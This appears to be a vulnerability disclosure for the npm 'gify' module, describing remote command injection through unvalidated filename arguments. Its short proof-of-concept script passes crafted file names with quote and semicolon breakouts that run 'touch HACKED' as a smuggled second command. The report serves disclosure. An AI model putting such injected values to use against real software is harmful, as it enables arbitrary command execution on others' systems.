 # Description

The `gify` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var gify = require("gify");
gify("out.mp4\"`'; touch HACKED; #", 'out.gif\';touch HACKED; #');;
```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i gify # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
